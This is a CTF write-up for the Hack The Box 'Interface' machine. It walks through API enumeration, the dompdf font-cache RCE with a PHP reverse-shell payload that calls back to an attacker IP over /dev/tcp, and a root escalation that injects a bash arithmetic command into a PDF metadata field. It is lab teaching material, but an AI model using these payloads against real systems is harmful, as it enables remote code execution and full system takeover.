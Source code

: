 ```yaml
---
title: "Hack The Box - Interface [Medium]"
category: ctf-writeup
layout: post
---
```


The most important in this machine would be the enumeration, it exploits vulnerabilities like:
- [CVE-2022-28368](https://snyk.io/blog/security-alert-php-pdf-library-dompdf-rce/)
- [Executing files with sudo privileges](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid)

## Recon 

I started with just the website `interface.htb` where there isn't much going on, from what I gathered I saw that it was a Next.js application, but the interesting thing there were the headers.

```http
HTTP/1.1 200 OK
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 14 Feb 2023 08:44:41 GMT
Content-Type: text/html; charset=utf-8
Connection: close
Content-Security-Policy: script-src 'unsafe-inline' 'unsafe-eval' 'self' data: https://www.google.com http://www.google-analytics.com/gtm/js https://*.gstatic.com/feedback/ https://ajax.googleapis.com; connect-src 'self' http://prd.m.rendering-api.interface.htb; style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.google.com; img-src https: data:; child-src data:;
X-Powered-By: Next.js
ETag: "i8ubiadkff4wf"
Vary: Accept-Encoding
Content-Length: 6359
```

I saw the CSP header which has a bunch of websites in, and frankly I didn't spot the subdomain at first, but that was the next pivoting point `http://prd.m.rendering-api.interface.htb`.

Going to the subdomain, you are greeted by a single `File not Found` text with a 404 status. Here comes the tricky part, the usual reconning using `ffuf,feroxbuster` and such, are ignoring the 404 status over the things it finds, and it's tricky to set something that is working for this particular case.

```
$ ffuf -w ~/Tools/SecLists/Discovery/Web-Content/common.txt -u http://prd.m.rendering-api.interface.htb/FUZZ -mc all -fs 0
```

I found several endpoints that are returning more than just 404.

```
api/experiments/configurations [Status: 404, Size: 50, Words: 3, Lines: 1...
api/experiments         [Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 
api                     [Status: 404, Size: 50, Words: 3, Lines: 1, Duration: 
vendor                  [Status: 403, Size: 15, Words: 2, Lines: 2, Duration: 
```

Using `curl`, I found some API responses over those endpoints.

```http
$ curl -i http://prd.m.rendering-api.interface.htb/api/                                  
HTTP/1.1 404 Not Found
Server: nginx/1.14.0 (Ubuntu)
Date: Tue, 14 Feb 2023 08:53:49 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive

{"status":"404","status_text":"route not defined"}
```

Then I began enumerating the API, by filtering the 404 using a GET request. 

The tricky thing is that you must try to use all the methods `GET,POST,PUT,DELETE` on everything. That could have been easier with `feroxbuster` but the thing is that on the `feroxbuster` tool there isn't an `-mc all` option which matches all the response codes and I had to do it manually with `ffuf`.

This is what I've used to find another pivot point.

```
$ ffuf -w ~/Tools/SecLists/Discovery/Web-Content/big.txt -u http://prd.m.rendering-api.interface.htb/api/FUZZ -mc all -fs 50 -X POST
...
html2pdf                [Status: 422, Size: 36, Words: 2, Lines: 1...
```

I found other stuff like `composer,dumpdf` before that and I started to search some exploits for `dumpdf` since I thought that would be the next pivot point and found this PoC of an exploit: https://github.com/positive-security/dompdf-rce.

The next thing to figure out was how to pass the file to that endpoint. While I tried to just send the file without any parameters, it returns `missing parameters` so I had to explore the `dompdf` implementations. The parameters that `dompdf` uses are just two. 

```php
$dompdf->loadHtml($html); 
$dompdf->setPaper('A4', 'landscape');
$dompdf->render();
```

I know that this is an API, so it must accept some JSON, so I crafted some random payload which I admit I got really lucky.

```json
{
	"html": "<h1>test</h1>",
	"paper": "A4"
}
```

Because the response was `200 OK` and a binary with the attached PDF.

## Exploiting the `dumpdf RCE`

The `dumpdf` is apparently caching the fonts that it processes during the conversion of HTML to PDF. It stores them under `/vendor/dompdf/dompdf/lib/fonts/` folder. Earlier in my discovery I enumerated another possible pivoting point that however gave 403, which was `/vendor/dompdf/dompdf` so following the PoC I've crafted the following payload.

```http
POST /api/html2pdf HTTP/1.1
Host: prd.m.rendering-api.interface.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Type: application/json
Connection: close
Content-Length: 47

{
	"html": "<link rel=stylesheet href='http://10.10.14.73:8000/syl.css'>",
	"paper": "A4"
}
```

```
# syl.css
@font-face {
    font-family:'syl';
    src:url('http://10.10.14.73:8000/syl.php');
    font-weight:'normal';
    font-style:'normal';
}
```

```
# syl.php, this is a legit font just with 1 line PHP on the bottom
<LEGIT FONT BINARY DATA>
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.73/4444 0>&1'"); ?>
```

After that I execute the request, the server would try to get the CSS and the font from my server, and it would cache the font into the specified folder and after executing the request. I saw that it does exactly that:

```
# My Server logs
10.129.20.249 - - [14/Feb/2023 11:20:07] "GET /syl.css HTTP/1.0" 200 -
10.129.20.249 - - [14/Feb/2023 11:20:07] "GET /syl.php HTTP/1.0" 200 -
```

That means that we have our 'font' already cached on the server under the folder `/vendor/dompdf/dompdf/lib/fonts/` however what would be the name, because trying to execute `syl.php` wasn't yielding results. 

To figure that out I thought it might be several things, `md5(file), md5(url of the font), some_hashing_algo(file/url of the font)` so I had to research how it saves the fonts. Fortunately, the PoC gives us a clue of how is this working. The font file there is named `exploitfont_normal_3f83639933428d70e74a061f39009622.php` and I brute forced my way out of this by trying `syl_normal_` and `md5(file), md5(url of the font)` and the URL of the font was the right one, so I got a reverse shell with that. 

```
$ curl -i http://prd.m.rendering-api.interface.htb/vendor/dompdf/dompdf/lib/fonts/syl_normal_ee17d95350fea4e27875b56170439107.php
...
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.73] from (UNKNOWN) [10.129.20.249] 60822
pwd
/var/www/api/vendor/dompdf/dompdf/lib/fonts
```

With that and using `linpeas.sh` I could read the first flag which is located in `/home/dev/user.txt`.

## Gaining Root

This was a tricky one, and I got some help with it since I couldn't find how. I only found a script that was cleaning some cache files with the tag `Producer: dompdf` in the `/tmp` folder. The script is located here: `/usr/local/sbin/cleancache.sh`. I was pretty sure that this is the root pivot point, but I didn't know how to exploit it. 

I joined some discussions and one of the users mentioned the `# Bash’s white collar eval: [[ $var -eq 42 ]] runs arbitrary code too` - https://www.vidarholen.net/contents/blog/?p=716

I didn't know that you could do that, but after reading the article it was clear what I should do.

```
$ cd /tmp
$ mkdir syl
$ cd syl && wget http://10.10.14.73:8000/admin.sh
$ chmod +x ./admin.sh
$ wget http://10.10.14.73:8000/test.pdf
$ exiftool -Producer='a[$(/tmp/syl/admin.sh>&2)]+42' test.pdf
< -Producer='a[$(/tmp/syl/admin.sh>&2)]+42' test.pdf
    1 image files updated
$ /usr/local/sbin/cleancache.sh
/usr/local/sbin/cleancache.sh
chmod: changing permissions of '/bin/bash': Operation not permitted
chmod: changing permissions of '/bin/bash': Operation not permitted
$ /bin/bash -p
bash-4.4# cat /root/root.txt
```
